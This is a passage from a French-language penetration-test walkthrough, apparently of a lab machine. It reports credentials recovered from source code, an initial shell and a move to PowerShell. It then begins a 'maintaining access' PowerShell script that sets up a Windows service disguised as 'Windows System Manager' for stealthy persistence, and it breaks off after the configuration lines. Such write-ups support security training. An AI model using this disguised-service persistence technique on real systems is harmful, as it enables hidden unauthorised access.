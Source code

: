 ![alt text](image-41.png)

On peut donc remarquer que le login est JeanJean et le mot de passe est jean.jean68.

Nous pouvons réaliser une première connexion initiale sur notre machine attaquante.

![alt text](image-40.png)

En essayant la commande `ls`, nous pouvons voir que la commande n’est pas reconnue. Tandis que la commande `dir` fonctionne. Cela montre que nous sommes actuellement sous un interpréteur de commande en Batch et non en PowerShell. Nous pouvons toutefois lancer un terminal en PowerShell en allant dans le répertoire `C:\Windows\System32\WindowsPowershell\v1.0\` et en lançant l’exécutable `powershell.exe`.

![alt text](image-39.png)

## Phase 4 : Maintaining Access - Installer un accès persistant sur le système compromis pour y revenir plus tard.

Pour maintenir l’accès et être plus discret, nous allons utiliser le script PowerShell suivant :

```powershell
# Ensure running with administrative privileges
$isAdmin = ([Security.Principal.WindowsPrincipal] [Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator)

if (-not $isAdmin) {
    Write-Host "This script requires administrative privileges."
    exit
}

# Configuration
$serviceName = "WindowsSystemManager"
$serviceDisplayName = "Windows System Manager"
$serviceDescription = "Manages system resources and performance"
$logPath = "C:\Windows\Temp\system_logs.txt"
```